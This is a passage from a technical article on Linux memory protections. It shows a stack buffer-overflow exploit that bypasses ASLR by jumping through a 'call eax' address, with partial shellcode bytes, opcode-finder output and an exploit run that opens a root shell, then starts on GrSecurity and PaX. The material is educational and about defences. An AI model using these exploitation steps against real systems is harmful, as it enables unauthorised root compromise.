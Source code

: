```bash
0xbf999b38: 0x0b 0xcd 0x80 0x31 0xc0 0xb0 0x01 0xcd
0xbf999b40: 0x80 0xbf 0xa7 0xf3
```

The 0x90 bytes are the NOPs, mostly used to reduce the heuristic necessary for exploiting a buffer overflow (we could have done without them in this case of exploitation). Incidentally, note the 0xCD80 OPCODEs (in bold above) which represent the call to the execution interrupt to give us a shell on the remote machine (int $0x80).

The exploitation principle is then very clear: we must make the machine execute the equivalent of a jmp %eax or call %eax that will jump directly to our shellcode.

By performing a search in the process memory, thanks to the opcode finder that we developed for the occasion, we find an address (in a fixed addressing area this time) containing the OPCODEs of the "call EAX" instruction:

```bash
# ./memory_dumper 080484b0 0804A4b0 10497 output
Found at 0x8048c03
```

Since the EAX register points to our buffer (which contains a valid shellcode), the bypass is then performed:

```bash
# ./exploit localhost 8000 0
Using align value 0
Trying "call eax" compliant address: 0x08048c03

Linux lapt41p 2.6.16 #3 PREEMPT i686 GNU/Linux
uid=0(root) gid=0(root) groups=0(root)

#
```

More technical information about ASLR is available at the following addresses:

[Lwn.net](https://lwn.net/Articles/121845/)

[Searchopensource.techtarget.com](https://searchopensource.techtarget.com/tip/1,289483,sid39_gci1144658,00.html)

[Metasploit msg 00735](https://www.metasploit.com/archive/framework/msg00735.html)

[Metasploit msg 00736](https://www.metasploit.com/archive/framework/msg00736.html)

Other protections, located in userland via the libc library, allow among other things to protect against exploitations in the heap via the unlink method. They are complementary to an ASLR usage and will not be described in this article.

## GrSecurity and PaX

GrSecurity strengthens the security of userland processes, making it possible to make vulnerability exploitation more complex for an attacker on an operating system. GrSecurity relies on PaX for protections related to kernel and user land memory processing.

GrSecurity offers an "upstream" approach to kernel security enhancements. By this means, the security of processes in userland can also be strengthened. The kernel does indeed play a major role in process management. It defines the use of memory ranges (stack, heap, base address of binary loading, etc.) and execution, read or write zones.
